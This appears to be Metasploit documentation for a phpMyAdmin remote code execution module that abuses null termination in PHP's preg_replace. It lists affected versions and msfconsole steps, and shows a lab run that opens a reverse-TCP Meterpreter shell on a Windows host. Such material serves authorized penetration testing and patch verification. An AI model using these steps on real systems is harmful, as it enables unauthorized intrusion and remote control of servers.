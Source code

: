 ## Description

This module exploits a vulnerability in a PHP's `preg_replace()` function
that is used by phpMyAdmin's replace table feature.


## Vulnerable Application

PHP versions before 5.4.6 allow null termination of the `preg_replace` string parameter.

phpMyAdmin versions 4.6.x (prior to 4.6.3), 4.4.x versions (prior to 4.4.15.7),
and 4.0.x versions (prior to 4.0.10.16) are affected.


## Options

**DATABASE**
This option specifies the database the module will use
when creating a new table as part of the exploit.


## Verification Steps

- [ ] Install vulnerable phpMyAdmin application
- [ ] Create database through phpMyAdmin application
- [ ] `./msfconsole`
- [ ] `use exploit/multi/http/phpmyadmin_null_termination_exec`
- [ ] `set USERNAME <username>`
- [ ] `set PASSWORD <password>`
- [ ] `set DATABASE <database>`
- [ ] `set rhost <rhost>`
- [ ] `run`


## Scenarios

### Tested on Windows 7 x64 running phpMyAdmin 4.3.0 on PHP 5.3.8

```
msf5 > use exploit/multi/http/phpmyadmin_null_termination_exec
msf5 exploit(multi/http/phpmyadmin_null_termination_exec) > set rhost 172.22.222.122
rhost => 172.22.222.122
msf5 exploit(multi/http/phpmyadmin_null_termination_exec) > set database <database>
database => <bugtracker>
msf5 exploit(multi/http/phpmyadmin_null_termination_exec) > run

[*] Started reverse TCP handler on 172.22.222.177:4444 
[*] Sending stage (37775 bytes) to 172.22.222.122
[*] Sleeping before handling stage...
[*] Meterpreter session 2 opened (172.22.222.177:4444 -> 172.22.222.122:49169) at 2018-06-18 07:28:19 -0500
[-] 172.22.222.122:80 - Failed to remove the table 'spkkw'

meterpreter > sysinfo
Computer    : WIN-V438RLMESAE
OS          : Windows NT 6.1 build 7601 (Windows 7 Business Edition Service Pack 1) i586
Meterpreter : php/windows
```
